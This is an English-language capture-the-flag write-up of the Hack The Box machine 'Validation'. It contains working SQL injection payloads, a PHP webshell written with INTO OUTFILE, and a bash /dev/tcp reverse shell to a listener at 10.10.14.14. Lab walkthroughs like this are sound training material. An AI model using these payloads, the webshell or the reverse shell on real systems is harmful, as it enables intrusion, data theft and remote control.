# Validation

## Información General

<h3>Dificultad:  </h3>

<h3> Operating system: Linux</h3> 

<h3> Data Resolution: 01/10/2025 </h3>

<h3>Link: <a href="https://app.hackthebox.com/machines/Validation" target="_blank">Validation</a></h3>

### *Read this document in espagnol :* <a href="validation.md"> Validation</a>

## Recognition

TryHackme provides us with the target machine's IP address **10.10.11.116**

I'm going to set the IP address of the target machine in the **/etc/hosts** file, which I'm going to call **validation**.

### Open port scan

#### TCP port scan

The command I use with nmap is:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn validation
```

<p align="center"> 

</p>

<div align="center">

| Open port | Service       | Version                     |
| --------- | ------------- | --------------------------- |
| 22      | ssh| OpenSSH 8.2p1 ubuntu 4ubuntu0.3|
| 80        | http          | Apache http 2.4.48    |
| 4566       | http          | nginx   |
| 8080       | http          | nginx   |

</div>

Ports 4566 and 8080 don't work. We don't have a user to access via SSH either. Therefore, we only have the path to port 80. So, we visit it.

<p align="center"> 

</p>
 
I want to register to see what I get in return, but I get the following:

<p align="center"> 

</p>

I'll record the name along with the selected country, all in the **account.php** path.

We'll get back to this later, but first, I want to do some web fuzzing.

### Fuzzing web

```
gobuster dir -u http://validation/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh
```

<p align="center"> 

</p>

The file that most catches my attention is **config.php** but we will investigate that once inside the system.

### SQLI

Let's start performing SQL injections. We need the FoxyProxy extension installed in our browser. We'll also be combining it with BurpSuite.

<p align="center"> 

</p>

In the browser we were in before, we'll capture the page navigation using **burpsuite**. To do this, we'll go to **proxy - Intercept - Intercept on** + FoxyProxy.

Next, we'll pass the captured data to **repeater** to carry SQLi. We'll try adding the injections to the **country** parameter.

```
username=dani&country=Spain" OR "" = "
```

We send them **send**

<p align="center"> 

</p>

The next step is to hit **Follow redirection**

<p align="center"> 

</p>

The peculiar case in this is that we have to **deactivate both the proxy interception and the foxy proxy** and we place ourselves in the route http://validation/account.php and we will update it every time we click on **follow direction**

The result would be as follows:

<p align="center"> 

</p>

It didn't work.. To try another payload again, just click here:

<p align="center"> 

</p>

I would like to know if there is any database on this machine, so I would run the following payload:

```
username=dani&country=Spain'union select database()-- -
```

<p align="center"> 

</p>

The database is **registration**. Now I'd like to list its tables.

```
username=dani&country=Spain' union select table_name from information_schema.tables where table_schema="registration"-- -
```

<p align="center"> 

</p>

Ok, now I know I have a database called **registration* and a table, also called **registration**, now I want to list the table

```
username=dani&country=Spain' union select column_name from information_schema.columns where table_schema='registration' and table_name='registration' -- -
```

<p align="center"> 

</p>

But then I realize that all the content is coming from the content I've registered. That is, the username will appear as **dani**, which is the user I registered with. Then, userhash will give me the hash of dani. Country would give me the SQLi payload and regtime, some numbers that have nothing to do with what I'm currently using.

One way I can view it would be to use the following payload:

```
username=dani&country=Spain' union select group_concat(username,0x3a,userhash) from registration.registration -- -
```

<p align="center"> 

</p>

So the next thing I'm going to do is find out the system version.

```
username=dani&country=Spain' union select version()-- -
```

<p align="center"> 

</p>

The system version is **10.5.11-MariaDB-1**

Another thing I want to test is what user we have.

```
username=dani&country=Spain' union select user()-- -
```

<p align="center"> 

</p>

The system user is **uhc@localhost**

Another thing I want to try is reading the **/etc/passwd** file

```
username=dani&country=Spain' union select load_file("/etc/passwd")-- -
```

<p align="center"> 

</p>

One way to see it better would be to use the keyboard shortcut **control+u**

<p align="center"> 

</p>

Another idea that occurred to me is to create a file called prueba.php within the system from burpsuite. To do this, I have to capture the browser data again from this route http://validation/

```
username=dani&country=dani' UNION SELECT "<?php system($_REQUEST['cmd']); ?>" into outfile "/var/www/html/prueba.php"-- -
```

To test that it has been created correctly, I type in the browser:

```
http://validation/prueba.php
```

<p align="center"> 

</p>

I try to carry a simple command like

```
http://validation/prueba.php?cmd=whoami
```

<p align="center"> 

</p>

Then in the browser I try to do a **reverseshell**

```
http://validation/prueba.php?cmd=bash -c "sh -i >& /dev/tcp/10.10.14.14/4443 0>&1"
```
Putting this doesn't work for me because **&** gives me problems, therefore, I have to convert it to hexadecimal

& --> %26

Therefore, the correct thing would be

```
http://validation/prueba.php?cmd=bash -c "sh -i >%26 /dev/tcp/10.10.14.14/4443 0>%261"
```

First I have to have the listening port activated on my terminal

```
nc -lvnp 4443
```

<p align="center"> 

</p>

## Post-Exploitation

#### TTY

```
script /dev/null -c bash
```
**control z**

```
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

We read the **config.pgp** file that we found before, which made me very curious about its contents

<p align="center"> 

</p>

Prize, we use the command:

```
su
```

and enter the password

<p align="center"> 

</p>

We're root, a fairly easy climb. We get the user flags.

```
cat /home/htb/user.txt
```

<p align="center"> 

</p>

Now we get the root flag

```
cat /root/topot.txt
```

<p align="center"> 

</p>

**Finished machine**

## Conclusion

This machine was very useful for reinforcing and strengthening my knowledge of SQL Injection (SQLi), in addition to allowing me to test different payloads and exploitation techniques.
One of the most relevant lessons learned was building queries that allow files to be written to the server, something typically done with the UNION SELECT ... INTO OUTFILE payload. In controlled environments like this, it's an excellent way to understand how an attacker could upload a malicious file (e.g., a webshell) and why it's important to restrict write permissions on production servers.

An interesting aspect was that the antivirus detected the generated webshell as Backdoor:PHP/Chopper.B!dha, classifying it as a remote access threat. This made me reflect on how security tools identify and react to potentially dangerous files, even when used in laboratory environments.

<p align="center"> 

</p>

Privilege escalation was straightforward: the user password was stored in the config.php file, a common pattern on entry-level machines, reinforcing the importance of securely managing sensitive information.

In conclusion, this machine is ideal for beginners who want to practice SQLi and understand the impact of poor credential management. Despite its low difficulty level, it offers a good learning experience.